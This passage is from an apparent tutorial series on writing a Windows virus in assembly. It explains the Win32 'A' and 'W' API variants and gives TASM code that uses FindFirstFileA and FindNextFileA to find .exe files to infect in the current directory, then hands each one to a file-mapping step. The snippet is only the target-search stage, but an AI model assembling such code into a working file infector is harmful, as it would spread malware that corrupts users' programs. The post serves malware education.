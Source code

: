 To keep things simple I have been limiting my code to ASCII compatibility which means using [the "A" variant of some win32 APIs](https://docs.microsoft.com/en-us/windows/desktop/intl/unicode-in-the-windows-api) (for ASCII) vs the "W" variant (for Wide Chars). Remember to drop the "A" suffix when looking up documentation (e.g. search for `FindFirstFile` in the `win32.hlp` index not `FindFirstFileA`). Assembly programmers have to care about "A" vs "W" where normally the Visual C++ runtime hides this distinction from programmers with compile time magic.

To find files in the current directory requires using a combination of [`FindFirstFileA`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-findfirstfilea) and [`FindNextFileA`](https://docs.microsoft.com/en-us/windows/desktop/api/fileapi/nf-fileapi-findnextfilea). The first is used to start a directory traversal and the second is used to continue it. By providing a pointer to the null terminated string `"*.exe"` as the `lpFileName` I'm able to start a traversal of all executables (if any!) in the current directory.

```tasm {linenos=table}
; inputs:   `infectFilter` -> the pattern to find
;           `findData`     -> the data structure to populate
; outputs:  `targetFile`   -> the path to an .exe in the PWD to check
;
findfirst:
  mov eax, offset infectFilter
  mov ebx, offset findData
  call FindFirstFileA, eax, ebx

  ; If we got an invalid handle from FindFirstFileA that means there were 
  ; no EXEs in the directory. Jump to error to handle this case.
  cmp eax, INVALID_HANDLE_VALUE
  je error
  mov [findHandle], eax

targetfound:
  ; Otherwise we have a potential .exe target to examine
  ; Copy the name of the file from the find data to our targetFile var.
  mov eax, offset targetFile
  mov ebx, offset findData.cFileName
  call lstrcpy, eax, ebx
  cmp eax, 0h
  je error
  ; If there was no error, map the target file.
  jmp mapfile

; If we're here it means the targetFile wasn't any good.
; Time to look at the next available .exe file using FindNextFile
findnext:
  mov eax, [findHandle]
  mov ebx, offset findData
  call FindNextFileA, eax, ebx
  cmp eax, 0h
  je error
  ; If there was no error, we found a potential target. Jump back
  ; to targetFound.
  jmp targetfound
```


[welcome]: /2019/01/lets-write-a-virus/
[setup]: /2019/01/getting-set-up/